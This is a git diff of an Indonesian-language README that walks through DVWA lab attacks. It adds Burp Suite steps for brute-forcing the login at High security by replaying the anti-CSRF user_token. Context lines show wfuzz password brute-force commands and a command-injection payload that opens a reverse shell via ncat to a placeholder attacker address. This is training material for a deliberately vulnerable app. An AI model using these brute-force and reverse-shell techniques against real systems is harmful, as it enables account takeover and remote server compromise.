

Update

diff --git a/README.md b/README.md
@@ -39,6 +39,43 @@ wfuzz --hs "incorrect" -c -z file,user-dvwa.txt -z file,/usr/share/seclists/Pass
 wfuzz --hs "incorrect" -c -w /usr/share/seclists/Passwords/darkweb2017-top100.txt -b 'PHPSESSID=hash; security=low' 'http://<IP_Server>/DVWA/vulnerabilities/brute/index.php?username=admin&password=FUZZ&Login=Login'
 ``` 
 
+### Security High
+- Disini kita akan melakukan bypass terhadap **user_token**
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2031.JPG)
+
+- Buat attack dengan type **Pitchfork** dan tempatkan payload pada parameter **password** dan **user_token**
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2032.JPG)
+
+- Buat payload 1 dengan tipe **Simple List** dan klik load lalu pilih wordlist `/usr/share/seclists/Passwords/darkweb2017-top100.txt`
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2033.JPG)
+
+- Buat payload 2 dengan tipe **Recursive Grep**
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2036.JPG)
+
+- Clear semua string di **Grep - Match** lalu Add string **incorrect**
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2037.JPG)
+
+- Tekan tombol **Add** pada bagian **Grep Extract** lalu block hash token lalu pilih **Start at offset** dan **End at fixed length**
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2038.JPG)
+
+- Pada bagian **Redirections** pilih **Always**
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2039.JPG)
+
+- Pada tab **Resource pool** pilih **Create new resource pool** lalu centang **Maximum concurrent requests** dan isi 1. Jika sudah tekan tombol **Start Attack** untuk memulai penyerangan
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2040.JPG)
+
+- Setelah proses penyerangan selesai, kita bisa lakukan sorting berdasarkan length. Request yang memiliki length paling berbeda adalah hasil brute force nya
+
+![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2041.JPG)
+
 ## Command Injection
 Command Injection (Shell Injection) adalah celah keamanan web yang memungkinkan penyerang dapat mengeksekusi perintah sistem operasi (OS) sewenang-wenang di server yang menjalankan aplikasi, dan biasanya membahayakan aplikasi dan semua data.
 
@@ -77,7 +114,7 @@ nc -lnvp 9999
 127.0.0.1& ncat <IP_Attacker> 9999 -e /bin/bash
 ```
 
-### Security Hard
+### Security High
 Di level ini kita hanya bisa mengeksekusi 1 perintah saja
 ```sh
 127.0.0.1|ls
